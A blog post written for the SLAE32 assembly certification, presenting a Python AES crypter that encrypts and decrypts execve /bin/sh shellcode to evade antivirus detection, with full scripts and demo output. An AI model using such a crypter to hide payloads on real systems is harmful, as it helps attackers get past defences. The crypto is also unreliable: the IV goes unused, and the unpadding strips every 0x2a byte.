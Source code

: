 ```yaml
---
title: "SLAE32 0x07: Custom Crypter"
date: 2019-11-24
category: [SLAE32]
tags: [assembly, python, exploit development, custom crypter, linux, SLAE32]
header:
    teaser: "/assets/images/slae/crypt.jpg"
---
```

In this post, a crypter program will be created and demonstrated that uses the Advanced Encryption Standard encryption specification, also known as AES. The AES standard is part of the block cipher family. It is also important to note that AES is a symmetric-key algorithm which means that the same key is used for encrypting and decrypting data. A crypter has two parts, an encryptor and a decryptor. The encryption and decryption programs will be written in Python.

In general, encryption is used to obfuscate and secure data in such a way that only authorized parties (those with the key) can access it. While encrypted messages can still be intercepted, the encrypted contents will be unintelligible to those without the decryption key. For shellcode, encryption and decryption can be used to obfuscate the shellcode within in an attempt to evade anti-virus softare. Shellcode can first be encrypted with an encryptor program, and then can be placed into a file along with decryption logic that can be compiled and run as a standalone program. The idea is that the shellcode will be obfuscated until the program is run which in turn decrypts and executes the original shellcode payload.

### Objectives
Create a custom crypter;
1. Any existing encryption schema may be used
2. Any programming language may be used

### Encryption/Decryption Demonstration
For this assignment, the `execve` shellcode from the custom encoding assignment will be reused to demonstrate the encryption and decryption process. This shellcode has been demonstrated, explained, and tested in previous posts. Upon execution, this shellcode will spawn a new `/bin/sh` shell. The unencrypted payload is shown below for future reference.

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

In the sections below, the encryption and decryption programs will be demonstrated and explained.

#### Encryption
The program code in full is shown below. The source code can be found on [GitHub](https://github.com/norrismw/SLAE). An overview of the program functionality will follow the code.

```python
#!/usr/bin/python3

from Crypto.Cipher import AES
import hashlib
import random

# Place plaintext shellcode here
shellcode = b'SHELLCODE_PLACEHOLDER'


# Generates 128 bit (16 byte) key 
def md5_key(key):
    b_key = str.encode(key)
    hashed_key = hashlib.md5(b_key)
    return hashed_key.hexdigest()


# Formats the shellcode for printing to terminal
def format_shellcode(bytes_obj):
    formatted = ''
    for byte in bytes_obj:
        formatted += '\\x'
        formatted += '%02x' % byte
    return formatted


# Pads the shellcode. AES encryption works on 16 byte blocks
def pad(shellcode):
    if len(shellcode) % 16 != 0:
        c = 16 - (len(shellcode) % 16)
        for i in range(c):
            shellcode += b'*'
    return shellcode


key = input("Key: ") # Takes user-chosen key
key = md5_key(key) # Generates key to 16 byte key
iv = ''.join([chr(random.randint(0, 0xFF)) for i in range(16)]) # Pseudo-random intialization vector
cipher = AES.new(key) # Cipher object for encryption
enc_shellcode = cipher.encrypt(pad(shellcode)) # Encrypted shellcode

print("\n[+] Encrypted shellcode:\n{}".format(format_shellcode(enc_shellcode)))
```

After placing the plaintext shellcode into the `shellcode` variable (it should replace the only the `SHELLCODE_PLACEHOLDER` text) and running the program, a key to be used for encryption should be entered by the user. For AES encryption, a keysize of 128, 192, or 256 bits is required. To faciliate for cases where the user-defined key is not 128, 192, or 256 bits in size, all keys are hashed using the MD5 algorithm, which returns 128 bit hash values. 

Following the key hashing process, the intialization vector (or the IV) is initialized. An IV is a required random or pseudo-random fixed-size input (16 bytes in the context of AES) that is used along with the user-specified hashed key value during the encryption process. For most block ciphers such as AES, the IV is the same size as the block size.

Next, a cipher object is created which will subsequently used to encrypt the plaintext shellcode. For block ciphers, the data to be encrypted must be evenly divisible by the block size. As stated previously, the block size for AES is 16 bytes. To account for instances where the number of the bytes in the plaintext shellcode is not evenly divisible by 16, a padding function is used to append `*` characters to the end of the plaintext shellcode until the length is evenly divisilble by 16. 

With the shellcode padded to a byte length that is evenly divisible by 16, the plaintext shellcode is encrypted and printed to the terminal. A demonstration of the program running is shown below.

```shell
root@kali:~/workspace/SLAE/assignments/0x07# python3 EncryptShellcode.py 
Key: SLAE-1469

[+] Encrypted shellcode:
\x8f\x03\x2b\xc7\x69\xa4\xe4\xe2\x5e\x44\x96\xa8\x47\x8a\xc3\xb5\xf8\x57\xad\xef\xe8\xbd\xed\x33\xc7\xe5\x1f\xe3\xd5\xc5\xd1\x02
```

#### Decryption
The program code in full is shown below. The source code can be found on [GitHub](https://github.com/norrismw/SLAE). An overview of the program functionality will follow the code.

```python
#!/usr/bin/python3

from Crypto.Cipher import AES
import hashlib
import random

# Place encrypted shellcode here
enc_shellcode = b'ENC_SHELLCODE_PLACEHOLDER'


# Generates 128 bit (16 byte) key 
def md5_key(key):
    b_key = str.encode(key)
    hashed_key = hashlib.md5(b_key)
    return hashed_key.hexdigest()


# Formats the shellcode for printing to terminal
def format_shellcode(bytes_obj):
    formatted = ''
    for byte in bytes_obj:
        formatted += '\\x'
        formatted += '%02x' % byte
    return formatted


# Removes padding from decrypted shellcode
def unpad_shellcode(shellcode):
    shellcode = format_shellcode(shellcode)
    return shellcode.replace('\\x2a', '')


key = input("Key: ") # Takes user-chosen key
key = md5_key(key) # Generates key to 16 byte key
iv = ''.join([chr(random.randint(0, 0xFF)) for i in range(16)]) # Pseudo-random intialization vector
cipher = AES.new(key) # Cipher object for decryption
dec_shellcode = cipher.decrypt(enc_shellcode) # Decrypted shellcode with padding
shellcode = unpad_shellcode(dec_shellcode) # Decrypted shellcode; no padding

print("\n[+] Shellcode:\n{}".format(shellcode))
```

To decrypt the encrypted shellcode, the encrypted shellcode output provided from the encryption program should be placed into the `shellcode` variable (it should replace the only the `ENC_SHELLCODE_PLACEHOLDER` text). Upon running the decryption program, the same user-specified key used during the encryption process should be used for decryption. If the incorrect key is provided, then the encrypted shellcode will not be decrypted to the original plaintext shellcode. 

The same modifications to the user-supplied key occur within the decyption program as they ocurred in the encyrption program and the modificatoins serve the same purpose (to make the user-supplied key 128 bits in length). Also, the initialization of the IV variable and the cipher object follow the same principles within the decryption program as within the previously outlined encryption process. 

At this point, the encrypted shellcode can be decrypted back to its original plaintext form. As padding bytes were added to the plaintext shellcode before encyrption, this means that those same bytes must be removed after decryption. At this point, the shellcode is decrypted, but the padding is still intact. To remove the padding, the decrypted shellcode has all instances of `\x2a` replaced with `''`, which effectly removes the padding and restores the shellcode to it's original unencrypted plaintext form. 

The plaintext shellcode is then printed to the terminal. A demonstration of the decryption program is shown below which decrypts the payload encrypted by the encryption program. A demonstration of the decryption program running is shown below.

```shell
root@kali:~/workspace/SLAE/assignments/0x07# python3 DecryptShellcode.py 
Key: SLAE-1469

[+] Shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Note that the above shellcode matches the shellcode that was encrypted with the encryption program (referenced in a previous section of this post.) The output below shows the result of an incorrect key being used to decrypt the payload that was encrypted with the key `SLAE-1469`. When any key other than `SLAE-1469` is used in an attempt to decrypt data encrypted with the the `SLAE-1469` key, the resulting shellcode will not match the original plaintext shellcode. A demonstration of this is shown below.

```shell
root@kali:~/workspace/SLAE/assignments/0x07# python3 DecryptShellcode.py 
Key: BAD_KEY

[+] Shellcode:
\x58\x68\xf5\x99\x39\x5e\xaa\x60\xef\x1b\x30\xa3\x9b\xb6\x7b\x40\x89\x15\x27\x23\x3c\xf2\xce\x3c\xe4\x4f\x2d\x71\x69\xcc\xb3\x7c
```

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

